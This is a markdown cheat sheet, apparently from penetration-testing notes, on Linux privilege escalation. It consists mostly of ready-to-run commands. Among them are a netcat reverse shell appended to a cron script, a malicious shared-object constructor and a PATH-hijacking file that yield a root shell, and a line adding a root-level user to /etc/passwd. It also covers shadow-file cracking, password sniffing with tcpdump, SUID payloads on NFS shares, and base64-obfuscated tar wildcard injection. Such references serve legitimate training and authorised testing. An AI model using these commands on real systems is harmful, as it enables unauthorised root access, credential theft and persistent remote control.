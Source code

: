 # 🐧 Linux Privesc

!!! info ""
    [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html) 🔸 [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/)

## Enumeration

```shell
# user
id
whoami

# system
hostname

# net
ifconfig
ip a
ip route
route
routel
sudo tcpdump -i lo -A | grep "pass"

# connections
ss -ntplu
netstat -ntplu

# users
cat /etc/passwd

# OS info
cat /etc/issue
cat /etc/*release
uname -a

# processes
ps aux
# wide
ps auxww
# tree
ps axjf

# installed apps on system (debian-based)
dpkg -l

# find writable paths
find / -writable -type d 2>/dev/null

# list drives mounted at boot time 
cat /etc/fstab
mount
lsblk # show available disks

# list loaded kernel modules and get specific info to find an exploit
lsmod
/sbin/modinfo <module>
```

!!! tip
    🍪 Try to switch users using username as pass

## User trails

```shell
# env vars
env
# .bashrc config
cat .bashrc
watch -n 1 "ps -aux | grep pass"
```

## Interesting Files

```shell
# check history
history
cat ~/.*history | less

# config files
find /home/<user> -type f \( -name "*.txt" -o -name "*.conf" -o -name "*.ini" \) 2>/dev/null

# .ssh folder
find /home/<user> -type d -name ".ssh" 2>/dev/null

# kdbx files
find / -name "*.kdbx" 2>/dev/null
```

## Cron jobs

!!! tip
    🍪 Examine periodic processes with [pspy](https://github.com/DominicBreuker/pspy)

```shell
ls -lah /etc/cron*
# current user's jobs
crontab -l
# root user's jobs
sudo crontab -l

# inspect cron logs
grep "CRON" /var/log/syslog

# reverse shell to cron file
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> > /tmp/f" >> scripts/user_backups.sh 
```

## SUID/SGID/Sudo/Caps

!!! tip
    🍪 Check [GTFOBins](https://gtfobins.github.io/) for escaping the programs

```shell
# find programs and groups with bit
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null

# list capabilities
/usr/sbin/getcap -r / 2>/dev/null

# check sudo privs
sudo -l
```

### Path Hijacking

A SUID executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

Run **strings** on the file to look for strings of printable characters:

```shell
strings <suidexecutable>
```

One line (`apache2`) suggests that the service executable is being called to start the webserver, however the full path of the executable (`/usr/sbin/service`) is not being used.

Create a malicious file in a writable path and call it like the file the SUID executable calls.

```shell
echo '/bin/bash -p' > /tmp/apache2
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid executable to gain a root shell:

```shell
export PATH=/tmp:$PATH

apache2
```

### Shared Object Injection

A SUID executable can be vulnerable to shared object injection.

First, execute the file and notice the missing object error.

If there is no feedback, run **strace** on the file and search the output for open/access calls and for **no such file** errors:

```shell
strace suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the `.config/libcalc.so` shared object within the home directory, but it cannot be found.
Create the **.config** directory for the `libcalc.so` file: `mkdir .config`

After knowing the path, compile a malicious code into a shared object at the location the **suid-so** executable is looking for:

```c
#include <stdlib.h>

__attribute__((constructor)) void make_setuid() {
    system("chmod +s /bin/bash");
}
```

```shell
gcc -shared -fPIC libcalc.c -o libcalc.so 
```

Execute `/bin/bash -p` to gain a root shell.

```shell
/bin/bash -p
```

## Weak file permissions

!!! info
    🐈‍⬛ Hashcat mode -> 1800

```shell
# check if /etc/shadow can be read and combine it with /etc/passwd to crack it
unshadow passwd shadow > passwords.txt
john --wordlist=<wordlist> passwords.txt

# check if /etc/shadow is writable and put a new root hash
mkpasswd -m sha-512 <newpassword>
openssl passwd -6 <newpassword>

# check if /etc/passwd is writable and put a new root hash
openssl passwd <newpassword>
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```

## Kernel exploits

```shell
cat /etc/issue
uname -r
arch

# find a public exploit
searchsploit <name>
```

## Automated Scripts

> [linPEAS.sh](https://github.com/peass-ng/PEASS-ng?tab=readme-ov-file)

> [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)

## NFS

```shell
# mountable shares
cat /etc/exports
showmount -e <ip>

# mount a share
mkdir /tmp/share
mount -o rw <ip>:<share> /tmp/share

# using Kali's root user, generate a payload and save it to the mounted share
# using Kali's root user, make the file executable and set the SUID permission:
chmod +xs share/shell.elf

# on the victim, as the low privileged user, execute the file to gain a root shell:
/<share_path>/shell.elf
```

## Tar Wildcard

A script that uses tar with a wildcard ( * ) is vulnerable to arbitrary command execution via maliciously crafted checkpoint files in the target directory.

```shell
echo -n 'chmod +s /bin/bash' | base64
> Y2htb2QgK3MgL2Jpbi9iYXNo

touch -- "--checkpoint=1"
touch -- '--checkpoint-action=exec="echo Y2htb2QgK3MgL2Jpbi9iYXNo | base64 -d | bash"'
```
